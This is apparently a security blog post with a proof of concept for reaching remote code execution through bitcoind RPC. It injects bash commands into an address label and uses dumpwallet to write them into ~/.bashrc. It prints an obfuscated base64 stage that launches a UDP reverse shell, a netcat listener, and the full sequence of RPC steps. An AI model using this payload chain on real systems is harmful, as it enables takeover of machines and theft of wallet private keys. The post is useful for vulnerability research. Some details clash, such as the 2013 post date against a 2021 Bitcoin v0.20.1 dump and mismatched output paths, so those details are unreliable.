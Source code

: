 ```yaml
---
layout: post
title:  "Pwning Bitcoind RPC To Remote Code Execution"
date:   2013-11-10 10:18:00
categories: Security
---
```


## Summary
We can combine the usage of `getnewaddress` and `dumpwallet` to create a reverse shell connection to an attackers machine, essentially elevating our limited access to `bitcoind` to a full complete shell.

### Nearly arbitrary write access through dumpwallet
We can leverage the `dumpwallet` command to write a file to an absolute path.
This can be leveraged to write files into sensitive locations such as `~/.bashrc`
Other locations such as `~/.bash_profile` or `~/.bash-login` are also interesting,
these have a higher chance of not having a file already but will only trigger when a new ssh login happens.

We can only write non-executable files, but this isn't really a constrained because the interesting locations mentioned above do not require the executable property. The shell will read the contents of the file into a variable and execute it.

Bash is an interesting target because it does not stop execution if a command failed. This is instrumental to skip over the "garbage" lines because we don't actually control the format of the file created by `dumpwallet`.

The label of an address created through `getnewaddress` serves as our entrypoint into our dumpwallet file, we can stuff bash commands in this field.

Labels barely do any filtering for useful characters (thanks @tecnovert):
```
"label": "~!@#$%^&*()-_=+[]\\{}|;':\",./<>?",
```

The final layout of the dumpfile looks like this (redacted a bit):
```
# Wallet dump created by Bitcoin v0.20.1
# * Created on 2021-01-05T18:59:14Z
# * Best block at time of backup was 0 (000000000019d6689c085ae165831e934ff763ae46a2a6c172b3f1b60a8ce26f),
#   mined on 2009-01-03T18:15:05Z

# extended private masterkey: REDACTED

L5REoWnddZLx315Bmh2fhHujTMQB5DBFREaia9osDfUaoiMtk6RA 2021-01-05T18:49:04Z reserve=1 # addr=bc1qqq5dsec72dv0g6nyxld0ykxtzau7pwau99dz5v hdkeypath=m/0'/0'/198'
L3p1RYmgarF1Ps6tdmLFon6iGKQMAZhLMH4HoV1eqvPkAF7Eqyxy 2021-01-05T18:49:04Z reserve=1 # addr=bc1q4e4vq855ljth9f3ykqvunr6xnc7aaaav6wpmgl hdkeypath=m/0'/0'/638'
KzHgJs6DSAnxab5tRD7jpDLoNUgtSyxPHbJS1ZW5dhJa5r9xG9Px 2021-01-05T18:49:04Z label=;(base64${IFS}-d${IFS}<<<c2ggLWkgPiYgL2Rldi91ZHAvMTI3LjAuMC4xLzQyNDIgMD4mMQ==)|bash; # addr=bc1q4ely2lu9du0mspersm9yvn2ttruv5z54aesnjv hdkeypath=m/0'/0'/2'
L1cE5swB5R8Bf9A2tN4yQH17fRDTm96YPdhw3YSdbdgDpUb7v8kA 2021-01-05T18:49:04Z reserve=1 # addr=bc1q469p9czc9kr74zelmx00pptfsqkuut9uedk4mj hdkeypath=m/0'/0'/405'

```

## Payload

The final payload that we'll use in this PoC looks like this:
```
;(base64${IFS}-d${IFS}<<<c2ggLWkgPiYgL2Rldi91ZHAvMTI3LjAuMC4xLzQyNDIgMD4mMQ==)|bash;
```

### Stage 1
```
;(base64${IFS}-d${IFS}<<<${BASE64_ENCODED_STAGE_2_PAYLOAD})|bash;
```
The first stage of the payload decodes the stage 2 payload and executes it.
Mostly a convenience feature because labels will encoded the space character ` ` to `%20`.
Luckily we can use `${IFS}` as a substitution, which is the variable that bash uses for whitespace detection.

Our actual payload is base64 encoded, that way we don't need to deal with the space issue in the actual payload.

### Stage 2

Insecure shell to ip address 127.0.0.1 on port 4242
```
$ sh -i >& /dev/udp/127.0.0.1/4242 0>&1
```

Encoding it to base64
```
$ echo "sh -i >& /dev/udp/127.0.0.1/4242 0>&1" | base64
c2ggLWkgPiYgL2Rldi91ZHAvMTI3LjAuMC4xLzQyNDIgMD4mMQo=
```

The attacker will be listening there, we can use the following command to do that:
```
$ nc -u -lvp 4242
```

## Attack

### Extract path of the user

```
getrpcinfo
{
  "active_commands": [
    {
      "method": "getrpcinfo",
      "duration": 20
    }
  ],
  "logpath": "/home/user/.bitcoin/debug.log"
}

```
Default log path can reveal this.
But this may not be as easy when a non default datadirectory is used.

### Create an address with our label as payload
```
getnewaddress ";(base64${IFS}-d${IFS}<<<c2ggLWkgPiYgL2Rldi91ZHAvMTI3LjAuMC4xLzQyNDIgMD4mMQ==)|bash;"
bc1qccznzj3k7y79jwqyttn8e2lhlwlyznrxqa65yk
```

### Dumping the wallet a file
Let's assume that `.bashrc` doesn't exist, for the sake of having an example that is easy to reproduce.
There are a few better locations as mentioned above that will also work quite well.
```
dumpwallet /home/user/.bashrc
{
  "filename": "/home/user/projects/BitcoindPwner/bitcoin-0.20.1/bin/test"
}
```

